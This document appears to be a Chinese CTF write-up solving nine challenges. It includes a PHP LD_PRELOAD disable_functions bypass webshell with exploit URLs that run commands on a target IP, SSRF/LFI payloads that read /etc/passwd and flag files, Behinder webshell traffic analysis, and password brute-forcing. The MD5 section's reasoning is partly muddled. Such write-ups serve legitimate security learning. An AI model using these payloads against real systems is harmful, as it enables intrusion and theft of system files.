# 1命令执行：（解决） 

## ✅ 漏洞概览

经过完整审计项目源码，发现了多个安全漏洞，其中最严重的是 **命令执行漏洞（Command Execution）**。以下是详细分析：

------

#### 1. 💥命令执行漏洞（核心漏洞）

**文件路径**: `www/bootstrap/test/bypass_disablefunc.php`

### 漏洞代码：

```php
$cmd = $_GET["cmd"];
$out_path = $_GET["outpath"];
$evil_cmdline = $cmd . " > " . $out_path . " 2>&1";

putenv("EVIL_CMDLINE=" . $evil_cmdline);
$so_path = $_GET["sopath"];
putenv("LD_PRELOAD=" . $so_path);

mail("", "", "", "");

echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>";
unlink($out_path);
```

### 漏洞类型：

- 利用 `LD_PRELOAD` 机制绕过 `php.ini` 中设置的 `disable_functions` 限制
- 通过环境变量 `EVIL_CMDLINE` 和共享库劫持，实现系统命令执行

### 利用参数说明：

- `cmd`：要执行的命令（如 `ls`、`cat` 等）
- `outpath`：命令输出保存路径
- `sopath`：恶意 `.so` 文件路径（用于注入）

### 利用示例：

```bash
http://121.4.91.93:12346/bootstrap/test/bypass_disablefunc.php?cmd=ls&outpath=/tmp/result&sopath=/var/www/bypass_disablefunc_x64.so
```

------

#### 2. 🐛SQL 注入漏洞

**文件路径**: `www/book.php`

### 漏洞代码：

```php
$book_isbn = $_GET['bookisbn'];
$query = "SELECT * FROM books WHERE book_isbn = '$book_isbn'";
```

### 问题说明：

- 将用户输入直接拼接进 SQL 语句中，存在严重 SQL 注入风险。
- 没有使用参数化查询（如 `PDO` 或 `mysqli_prepare`）

------

#### 3. 🖼️ 文件上传漏洞

**文件路径**: `www/admin_add.php`

### 漏洞代码摘要：

```php
if (isset($_FILES['image']) && $_FILES['image']['name'] != "") {
    $image = $_FILES['image']['name'];
    $ext = pathinfo($image, PATHINFO_EXTENSION);
    if (strtolower($ext) == 'php' || strtolower($ext) == 'phtml' || strtolower($ext) == 'php5' || strtolower($ext) == 'php2') {
        $image = pathinfo($image, PATHINFO_FILENAME) . '.jpg';
    }
    move_uploaded_file($_FILES['image']['tmp_name'], $uploadDirectory);
}
```

### 问题说明：

- 虽然尝试替换危险扩展名，但如果文件名构造为多重扩展（如 `shell.php.jpg`）仍可能绕过。
- 缺乏后端 MIME 类型验证或内容检查。

------

#### 4. 🛡️ WAF 绕过漏洞

**文件路径**: `www/admin_edit.php`、`www/admin_delete.php`

### WAF 函数代码：

```php
function wafsqli($str){
    if (preg_match("/select|and|\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleexml|extractvalue|+|regex|copy|read|file|create|grand|dir|insert|link|server|drop|=|>|<|;|\"|\'|\^|\|/i", $str)) {
        die("Invalid input detected. Access denied.");
    }
    return true;
}
```

### 问题说明：

- 匹配规则写得过于简单，容易被编码、大小写混淆、注释符等方式绕过。
- 不是结构化的SQL防护，不能替代真实的参数化查询机制。

------

#### 5. 🔓 弱密码验证机制

**文件路径**: `www/verify.php`

### 漏洞代码：

```php
if($email == $row['username'] && $pswd == $row['password']){
    echo "Welcome admin! Long time no see";
}
```

### 问题说明：

- 明文存储密码，缺乏哈希加盐处理
- 容易被撞库、爆破攻击
- 未做验证码、登录次数限制等防护

------

### 🎯 命令执行漏洞利用过程

#### 第一步：枚举系统中可利用的 SUID 程序

```bash
http://121.4.91.93:12346/bootstrap/test/bypass_disablefunc.php?cmd=find / -perm -4000 -type f 2>/dev/null | head -10&outpath=/tmp/suid_binaries&sopath=/var/www/html/bootstrap/test/bypass_disablefunc_x64.so
```

**执行命令：**

```bash
find / -perm -4000 -type f 2>/dev/null | head -10 > /tmp/suid_binaries 2>&1
```

### 输出：


> 🔍 发现 `/readflag` 可疑可执行文件

------

### 第二步：读取 flag

```bash
http://121.4.91.93:12346/bootstrap/test/bypass_disablefunc.php?cmd=/readflag&outpath=/tmp/flag_result&sopath=/var/www/html/bootstrap/test/bypass_disablefunc_x64.so
```

### 返回结果：

```
flag{8382843b-d3e8-72fc-6625-ba5269953b212321343}
```



------

## ✅ 总结

| 漏洞类型              | 危害等级 | 描述                          |
| --------------------- | -------- | ----------------------------- |
| 命令执行 (LD_PRELOAD) | 🔥🔥🔥 高危 | 可执行任意命令，最终读取 flag |
| SQL注入               | 🔥🔥 中危  | 可导致数据泄露或数据库控制    |
| 文件上传绕过          | 🔥🔥 中危  | 可能上传 WebShell             |
| WAF过滤不严           | 🔥        | 容易被绕过，配合注入更危险    |
| 明文密码验证          | 🔥        | 弱密码认证机制，无加密        |

------


# 2流量分析-1

#### 附件是一个 .pcac 的文件，用wireshark 打开，入眼所见没有域名，全是ip

#### 过滤dns，http（post）



#### 发现两条可疑记录，但是并没有hosts相关信息

#### 追踪tcp流    cilentcheck   发现了冰蝎的key，所以攻击程序是冰蝎



shell.php的tcp流是乱码，很像base64加密过的




先base64解码然后aes用密钥解，得到真实的域名

```
https://github.com/melody27/behinder_decrypt    现成的解密脚本
```




# 3java

#### 打开jadx.gui分析



#### 找到被加密的内容（绿色的部分）

#### 加密函数AbstractHashMap.newMap




写一个脚本解密

```python
from base64 import b64decode
from Crypto.Cipher import AES

KEY = b"Y4SuperSecretKey"  # 16字节密钥
BLOCK_SIZE = 16

def unpad(s):
    # PKCS7去填充
    padding_len = s[-1]
    return s[:-padding_len]

def decrypt(encrypted_b64):
    encrypted_bytes = b64decode(encrypted_b64)
    cipher = AES.new(KEY, AES.MODE_ECB)
    decrypted = cipher.decrypt(encrypted_bytes)
    return unpad(decrypted).decode('utf-8')

encrypted_list = [
    "edT1iLMQCSvyHMUjip/M/A==",
    "vHTdmhywhmrERttY0v8WPA==",
    "wOd4I7sVhw5HkgZMqTQlaA==",
    "xkXC55umWZBHWtL+x1dCCw==",
    "uX4UoCpC1vhwr9Qjgpu31uIMLuC9MMTFZdoHUgTrXfo=",
    "vHTdmhywhmrERttY0v8WPA==",
    "BLYz3Sg6p3/X/BPYNW1L7FPYr0DwjapP8ge2BnUIVgk=",
    "uX4UoCpC1vhwr9Qjgpu31uIMLuC9MMTFZdoHUgTrXfo=",
    ..............."
]

if __name__ == "__main__":
    for e in encrypted_list:
        try:
            print(decrypt(e))
        except Exception as ex:
            print(f"解密失败: {e}，错误: {ex}")

```




# 4md5

------

## 🧩 解密题目：`21218cca77804d2ba192r2c3s3ze01511hx0p5y`

------

### 🔍 步骤一：识别结构

这个字符串被分为两部分：

- **前20位**：`21218cca77804d2ba192`（明显是 MD5 哈希前缀）

反查得到是888888


- **后面字符**：`r2c3s3ze01511hx0p5y`（疑似干扰加密）

------

### 🔐 步骤二：反查 MD5

反查得出：

> ```
> 888888` 的完整 MD5 值为：
> `21218cca77804d2ba1922c33e0151105
> ```

对比：

- 题目前20位：`21218cca77804d2ba192` ✅ 匹配
- 剩余部分：`2c33e0151105` 应该被隐藏在 `r2c3s3ze01511hx0p5y` 中

------

### 🧪 步骤三：尝试还原 MD5 尾部

对比剩余部分 `2c33e0151105` 和加密部分 `r2c3s3ze01511hx0p5y`：

| 原字符 | 被混淆后字符 | 注释              |
| ------ | ------------ | ----------------- |
| 2      | 2            | ✅                 |
| c      | c            | ✅                 |
| 3      | 3            | ✅                 |
| 3      | s            | s → 3（替换）     |
| e      | z            | z → 0/e？（混淆） |
| 0      | 0            | ✅                 |
| 1      | 1            | ✅                 |
| 5      | 5            | ✅                 |
| 1      | 1            | ✅                 |
| 1      | 1            | ✅                 |
| 0      | h            | 干扰字符          |
| 5      | x            | 干扰字符          |

➡️ 明显存在字符替换与插入干扰的逻辑。可以确认，这段内容是经过**轻度字符混淆+干扰位**构成的。

------

### ✅ 步骤四：确认原文

既然最终恢复出的完整 MD5 是 `21218cca77804d2ba1922c33e0151105`，而它是 `888888` 的 MD5，那毫无疑问：

```
flag{888888}
```

------

## 🎯 最终答案

```
flag{888888}
```

------


# 5压缩包（解决）

111.rar 解压出  7ecb86887bd03535a7f9959e934e901e.txt 内容如下

```
526172211a0700ce997380000d00000000000000e4a01ab6691f9a859bbce556d50928f8e866e56049af8d429fff710dfe759e237badbf2ec99d891b1bea8c7b6efa6cef6e3996d938fb8ffac52f471bf41b64aac865888b62654cbb30db8bc3da1.....
```

是rar的

```
powershell -Command ^
"$hex = (Get-Content 'C:\Users\Administrator\Desktop\bisai\7ecb86887bd03535a7f9959e934e901e.txt' -Raw) -replace '\s',''; ^
$bytes = for ($i=0; $i -lt $hex.Length; $i+=2) { [Convert]::ToByte($hex.Substring($i,2),16) }; ^
[IO.File]::WriteAllBytes('C:\Users\Administrator\Desktop\bisai\recovered.rar', $bytes)"

```

recovered.rar有密码

```
7ecb86887bd03535a7f9959e934e901e.txt, 111.rar无法提供有用的信息
```

进行数字密码爆破

```
字典破解密码得到3690
```



解压得到：729ec4d72da9599a308c64fe40156201.png

png图片已损坏，16进制工具打开。头是png，结尾是jepg

去掉png头，补上jpg头，还原图片




# 6佛说（解决）

```
佛曰：罰漫除梵般地怖竟隸提罰顛彌菩夷滅奢得穆究缽豆侄隸冥神冥明梵至遠豆皤輸尼不冥即侄恐罰栗舍倒明爍離侄夜哆三集諸梵耨呼怯諦俱槃罰苦地俱竟顛倒藐
```

```
网站解密：https://www.keyfc.net/bbs/tools/tudoucode.aspx
```

```
flag{waefsadjfan}
```




# 7emoj（解决）

网址：

```
https://txtmoji.com/
```

密码是123456

```
flag{iquiw131c12c3}
```




# 8百度（解决）

靶机网址是

```
http://159.75.236.232:8087/index.php?url=http://www.baidu.com    （是本地文件包含漏洞（LFI）的特征）
```


得到

```
Web 服务器  Apache HTTP Server 2.4.25
编程语言 PHP  5.6.40
操作系统 Debian  
搜索引擎 Baidu Search Box
```

打开f12提示

```
<!-- 偷偷告诉你,flag在根目录下的flag.txt中 
```

访问下文得到

```
http://159.75.236.232:8087/index.php?url=file:///etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false
```

成功访问到passwd，证明LFI是可用的

```
http://159.75.236.232:8087/index.php?url=file:///../../../../flag.txt
http://159.75.236.232:8087/index.php?url=file:///../../flag.txt
http://159.75.236.232:8087/index.php?url=file:///var/www/flag.txt
http://159.75.236.232:8087/index.php?url=file:///root/flag.txt
http://159.75.236.232:8087/index.php?url=file:///flag.txt
http://159.75.236.232:8087/index.php?url=php://filter/convert.base64-encode/resource=flag.txt
访问全是空白界面
```

根目录下找不到flag.txt,提示是假的，尝试加一层目录进行爆破

```
最终在：   http://159.75.236.232:8087/index.php?url=file:///flag/flag.txt
```




# 9  v25（解决）

打开程序发现是个刮开有奖

网上一搜是原题，美美解决

```
https://blog.csdn.net/yhfgs/article/details/117368761
```

